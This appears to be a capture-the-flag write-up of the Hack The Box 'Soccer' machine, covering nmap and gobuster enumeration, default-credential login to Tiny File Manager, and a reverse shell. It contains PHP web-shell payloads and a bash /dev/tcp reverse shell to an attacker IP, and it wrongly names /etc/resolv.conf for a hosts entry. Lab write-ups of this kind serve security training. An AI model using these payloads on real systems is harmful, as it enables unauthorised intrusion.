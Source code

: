 ```yaml
---
title: Hack The Box - CTF Lab - Soccer - Easy
date: 2025-04-18 00:00:01 +0800
image: /images/Soccer.png
categories: [HTB Labs]
tags: [CPTS, Easy]
---
```

Soccer is an easy difficulty Linux machine that features a foothold based on default credentials, forfeiting access to a vulnerable version of the "Tiny File Manager", which in turn leads to a reverse shell on the target system ("CVE-2021-45010"). Enumerating the target reveals a subdomain which is vulnerable to a blind SQL injection through websockets. Leveraging the SQLi leads to dumped "SSH" credentials for the "player" user, who can run "dstat" using "doas"- an alternative to "sudo". By creating a custom "Python" plugin for "doas", a shell as "root" is then spawned through the "SUID" bit of the "doas" binary, leading to fully escalated privileges.

We start with an nmap scan:
```
sudo nmap -sC -sV -p- 10.10.11.194

Nmap scan report for 10.10.11.194
Host is up (0.025s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ad:0d:84:a3:fd:cc:98:a4:78:fe:f9:49:15:da:e1:6d (RSA)
|   256 df:d6:a3:9f:68:26:9d:fc:7c:6a:0c:29:e9:61:f0:0c (ECDSA)
|_  256 57:97:56:5d:ef:79:3c:2f:cb:db:35:ff:f1:7c:61:5c (ED25519)
80/tcp   open  http            nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://soccer.htb/
9091/tcp open  xmltec-xmlmail?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, RPCCheck, SSLSessionReq, drda, informix: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
|   GetRequest: 
|     HTTP/1.1 404 Not Found
|     Content-Security-Policy: default-src 'none'
|     X-Content-Type-Options: nosniff
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 139
|     Date: Thu, 17 Apr 2025 12:55:21 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error</title>
|     </head>
|     <body>
|     <pre>Cannot GET /</pre>
|     </body>
|     </html>
|   HTTPOptions, RTSPRequest: 
|     HTTP/1.1 404 Not Found
|     Content-Security-Policy: default-src 'none'
|     X-Content-Type-Options: nosniff
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 143
|     Date: Thu, 17 Apr 2025 12:55:21 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error</title>
|     </head>
|     <body>
|     <pre>Cannot OPTIONS /</pre>
|     </body>
|_    </html>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port9091-TCP:V=7.94SVN%I=7%D=4/17%Time=6800FA34%P=x86_64-pc-linux-gnu%r
SF:(informix,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x20clos
SF:e\r\n\r\n")%r(drda,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection
SF::\x20close\r\n\r\n")%r(GetRequest,168,"HTTP/1\.1\x20404\x20Not\x20Found
SF:\r\nContent-Security-Policy:\x20default-src\x20'none'\r\nX-Content-Type
SF:-Options:\x20nosniff\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\
SF:nContent-Length:\x20139\r\nDate:\x20Thu,\x2017\x20Apr\x202025\x2012:55:
SF:21\x20GMT\r\nConnection:\x20close\r\n\r\n<!DOCTYPE\x20html>\n<html\x20l
SF:ang=\"en\">\n<head>\n<meta\x20charset=\"utf-8\">\n<title>Error</title>\
SF:n</head>\n<body>\n<pre>Cannot\x20GET\x20/</pre>\n</body>\n</html>\n")%r
SF:(HTTPOptions,16C,"HTTP/1\.1\x20404\x20Not\x20Found\r\nContent-Security-
SF:Policy:\x20default-src\x20'none'\r\nX-Content-Type-Options:\x20nosniff\
SF:r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x201
SF:43\r\nDate:\x20Thu,\x2017\x20Apr\x202025\x2012:55:21\x20GMT\r\nConnecti
SF:on:\x20close\r\n\r\n<!DOCTYPE\x20html>\n<html\x20lang=\"en\">\n<head>\n
SF:<meta\x20charset=\"utf-8\">\n<title>Error</title>\n</head>\n<body>\n<pr
SF:e>Cannot\x20OPTIONS\x20/</pre>\n</body>\n</html>\n")%r(RTSPRequest,16C,
SF:"HTTP/1\.1\x20404\x20Not\x20Found\r\nContent-Security-Policy:\x20defaul
SF:t-src\x20'none'\r\nX-Content-Type-Options:\x20nosniff\r\nContent-Type:\
SF:x20text/html;\x20charset=utf-8\r\nContent-Length:\x20143\r\nDate:\x20Th
SF:u,\x2017\x20Apr\x202025\x2012:55:21\x20GMT\r\nConnection:\x20close\r\n\
SF:r\n<!DOCTYPE\x20html>\n<html\x20lang=\"en\">\n<head>\n<meta\x20charset=
SF:\"utf-8\">\n<title>Error</title>\n</head>\n<body>\n<pre>Cannot\x20OPTIO
SF:NS\x20/</pre>\n</body>\n</html>\n")%r(RPCCheck,2F,"HTTP/1\.1\x20400\x20
SF:Bad\x20Request\r\nConnection:\x20close\r\n\r\n")%r(DNSVersionBindReqTCP
SF:,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x20close\r\n\r\n
SF:")%r(DNSStatusRequestTCP,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConn
SF:ection:\x20close\r\n\r\n")%r(Help,2F,"HTTP/1\.1\x20400\x20Bad\x20Reques
SF:t\r\nConnection:\x20close\r\n\r\n")%r(SSLSessionReq,2F,"HTTP/1\.1\x2040
SF:0\x20Bad\x20Request\r\nConnection:\x20close\r\n\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.75 seconds
```

We ping the machine and see that the TTL is 64, meaning that it is most likely a Linux machine. 

We have ports 22, 80, and 9091. We check ports 80 and 9091 to see if we can access a website. We try port 9091 and see that there is an error in the get request. We then check port 80 and see that it is inaccessible, however it seems it is redirecting us to the hostname soccer.htb, which may not have a DNS record on the local DNS server. We can try adding it to our /etc/resolv.conf file. 
```
soccer.htb 10.10.11.194
```
and we see that we can now reach the website by typing in soccer.htb on the browser.

We try a gobuster query:
```
gobuster dir -u http://soccer.htb/ -w SecLists/Discovery/Web-Content/raft-small-words.txt

/.html                (Status: 403) [Size: 162]
/.htm                 (Status: 403) [Size: 162]
/.                    (Status: 200) [Size: 6917]
/.htaccess            (Status: 403) [Size: 162]
/.htc                 (Status: 403) [Size: 162]
/.html_var_DE         (Status: 403) [Size: 162]
/.htpasswd            (Status: 403) [Size: 162]
/.html.               (Status: 403) [Size: 162]
/.html.html           (Status: 403) [Size: 162]
/.htpasswds           (Status: 403) [Size: 162]
/.htm.                (Status: 403) [Size: 162]
/.htmll               (Status: 403) [Size: 162]
/.html.old            (Status: 403) [Size: 162]
/tiny                 (Status: 301) [Size: 178] [--> http://soccer.htb/tiny/]
/.html.bak            (Status: 403) [Size: 162]
/.ht                  (Status: 403) [Size: 162]
/.htm.htm             (Status: 403) [Size: 162]
/.htgroup             (Status: 403) [Size: 162]
/.hta                 (Status: 403) [Size: 162]
/.html1               (Status: 403) [Size: 162]
/.html.printable      (Status: 403) [Size: 162]
/.html.LCK            (Status: 403) [Size: 162]
/.htm.LCK             (Status: 403) [Size: 162]
/.htaccess.bak        (Status: 403) [Size: 162]
/.htx                 (Status: 403) [Size: 162]
/.htmls               (Status: 403) [Size: 162]
/.htuser              (Status: 403) [Size: 162]
/.htlm                (Status: 403) [Size: 162]
/.html-               (Status: 403) [Size: 162]
/.htm2                (Status: 403) [Size: 162]
```

And we see the tiny file manager at this directory: http://soccer.htb/tiny/

We look up default credentials on Google and find this pair: admin/admin@123

We enter it and miraculously it works:
![image tooltip](/images/Screenshot%202025-04-25%20192146.png)

It seems that we can upload files, so since tiny file manager is a web-based php file manager, we try several php shells but the below cannot be uploaded:
```
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.14/4443 0>&1'");
?>

<?php system($_GET['cmd']);?>

<?php system($_REQUEST["cmd"]); ?>
```

We try a reverse shell that uses the fsockopen() function in php: https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

and it works:
```
Listening on 0.0.0.0 4443
Connection received on 10.10.11.194 51554
Linux soccer 5.4.0-135-generic #152-Ubuntu SMP Wed Nov 23 20:19:22 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
 01:45:25 up 9 min,  0 users,  load average: 0.00, 0.04, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

We then use the following to upgrade our shell:
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
suspend with CTRL - Z
stty raw -echo
fg
export TERM=xterm
```



We try enumerating vhosts with ffuf:
```
ffuf -w SecLists/Discovery/DNS/namelist.txt:FUZZ -u http://soccer.htb -H 'Host:FUZZ.soccer.htb' -fs 178
```

